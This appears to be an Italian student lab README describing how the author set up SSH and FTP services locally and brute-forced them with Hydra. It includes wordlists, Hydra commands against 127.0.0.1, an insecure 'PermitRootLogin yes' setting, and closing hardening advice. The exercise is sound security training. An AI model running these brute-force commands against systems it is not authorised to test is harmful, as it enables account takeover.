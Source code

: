 # Progetto S6/L5: Brute Force SSH e FTP con Hydra

## **Obiettivo dell'Esercizio**

L'obiettivo dell'esercizio è stato duplice:
1. 🛡️ Fare pratica con lo strumento **Hydra** per effettuare attacchi di brute force sull'autenticazione di servizi di rete.
2. 🔧 Configurare i servizi SSH e FTP, consolidando la conoscenza di gestione e protezione dei servizi di rete.

---

## **Passaggi Seguiti**

### **1. Configurazione del Servizio SSH**

1. **Creazione dell'utente per il test**:
   ```bash
   sudo adduser test_user
   ```
   - Nome utente: `test_user`
   - Password: `testpass`

2. **Attivazione del servizio SSH**:
   ```bash
   sudo service ssh start
   ```

3. **Modifica del file di configurazione SSH** (opzionale):
   - Per permettere configurazioni avanzate, abbiamo modificato `/etc/ssh/sshd_config`:
     ```bash
     sudo nano /etc/ssh/sshd_config
     ```
     - Esempio di modifica: 
       ```
       PermitRootLogin yes
       MaxStartups 10:30:60
       ```
   - Riavvio del servizio SSH:
     ```bash
     sudo service ssh restart
     ```

4. **Verifica del servizio SSH**:
   - Recupero dell'indirizzo IP:
     ```bash
     ifconfig
     ```
   - Test della connessione:
     ```bash
     ssh test_user@127.0.0.1
     ```

### **2. Creazione delle Wordlist Personalizzate**

Abbiamo creato due file di wordlist per simulare un attacco mirato:

- **Wordlist delle password**:
  ```bash
  echo -e "password\n123456\nadmin123\ntestpass\nqwerty\nletmein\npassword1\nwelcome\n12345678\nchangeme\nroot123\ntoor\niloveyou\nsecurepass\npassword123" > passwords.txt
  ```

- **Wordlist dei nomi utente**:
  ```bash
  echo -e "test_user\nadmin\nroot\nuser1\nguest\noperator\nsupport\nmanager\ndeveloper\nservice\nbackup\ntester\naccount\nsuperuser\nsysadmin" > usernames.txt
  ```

### **3. Utilizzo di Hydra per il Brute Force su SSH**

Abbiamo utilizzato **Hydra** per effettuare il brute force sul servizio SSH:

1. **Comando per Hydra**:
   ```bash
   hydra -L usernames.txt -P passwords.txt 127.0.0.1 -t 1 ssh
   ```
   - `-L usernames.txt`: Specifica il file delle wordlist per i nomi utente.
   - `-P passwords.txt`: Specifica il file delle wordlist per le password.
   - `127.0.0.1`: Indica il server SSH (localhost).
   - `-t 1`: Esegue un thread alla volta per evitare errori di connessione.

2. **Risultato**:
   - ✅ Hydra ha identificato con successo la combinazione:
     - Nome utente: `test_user`
     - Password: `testpass`

![SSH](./SSHcredfound.png)

### **4. Configurazione del Servizio FTP**

1. **Installazione del server FTP**:
   ```bash
   sudo apt-get install vsftpd -y
   ```

2. **Avvio del servizio FTP**:
   ```bash
   sudo service vsftpd start
   ```

3. **Modifica del file di configurazione FTP**:
   - Disabilitazione dell'accesso anonimo e abilitazione degli utenti locali:
     ```bash
     sudo nano /etc/vsftpd.conf
     ```
     Modifiche effettuate:
     ```
     anonymous_enable=NO
     local_enable=YES
     ```
   - Riavvio del servizio FTP:
     ```bash
     sudo service vsftpd restart
     ```

4. **Creazione dell'utente per il test FTP**:
   ```bash
   sudo adduser ftp_user
   ```
   - Nome utente: `ftp_user`
   - Password: `ftp_pass`

### **5. Utilizzo di Hydra per il Brute Force su FTP**

1. **Creazione delle wordlist personalizzate**:
   - File dei nomi utente:
     ```bash
     echo -e "ftp_user\nadmin\nroot\nguest\nuser1" > ftp_usernames.txt
     ```
   - File delle password:
     ```bash
     echo -e "123456\npassword\nftp_pass\nadmin123\nwelcome" > ftp_passwords.txt
     ```

2. **Comando per Hydra**:
   ```bash
   hydra -L ftp_usernames.txt -P ftp_passwords.txt 127.0.0.1 -t 1 ftp
   ```
   - `-L ftp_usernames.txt`: Specifica il file delle wordlist per i nomi utente.
   - `-P ftp_passwords.txt`: Specifica il file delle wordlist per le password.
   - `127.0.0.1`: Indica il server FTP (localhost).
   - `-t 1`: Esegue un thread alla volta.

3. **Risultato**:
   - ✅ Hydra ha identificato con successo la combinazione:
     - Nome utente: `ftp_user`
     - Password: `ftp_pass`

![FTP](./FTPcredfound.png)

---

## **Conclusioni e Considerazioni**

L'esercizio ha dimostrato:
1. 💡 L'efficacia degli attacchi brute force con dizionari mirati.
2. 🔐 La necessità di proteggere i servizi di rete configurando correttamente il file di configurazione e implementando sistemi di rilevamento come `fail2ban`.

### **Miglioramenti Suggeriti per la Sicurezza**
- **Usare chiavi SSH** invece delle password.
- **Limitare i tentativi di login** e disabilitare utenti inutilizzati.
- **Configurare fail2ban** per bloccare tentativi ripetuti.

---

## **File Utilizzati**

- `usernames.txt`: Wordlist per i nomi utente SSH.
- `passwords.txt`: Wordlist per le password SSH.
- `ftp_usernames.txt`: Wordlist per i nomi utente FTP.
- `ftp_passwords.txt`: Wordlist per le password FTP.

Questi file sono inclusi nella directory del progetto per eventuali test futuri.

---

## **Comandi Chiave Riassunti**

1. Creazione dell'utente SSH:
   ```bash
   sudo adduser test_user
   ```

2. Attivazione del servizio SSH:
   ```bash
   sudo service ssh start
   ```

3. Creazione dell'utente FTP:
   ```bash
   sudo adduser ftp_user
   ```

4. Avvio del servizio FTP:
   ```bash
   sudo service vsftpd start
   ```

5. Esecuzione di Hydra su SSH:
   ```bash
   hydra -L usernames.txt -P passwords.txt 127.0.0.1 -t 1 ssh
   ```

6. Esecuzione di Hydra su FTP:
   ```bash
   hydra -L ftp_usernames.txt -P ftp_passwords.txt 127.0.0.1 -t 1 ftp
   ```
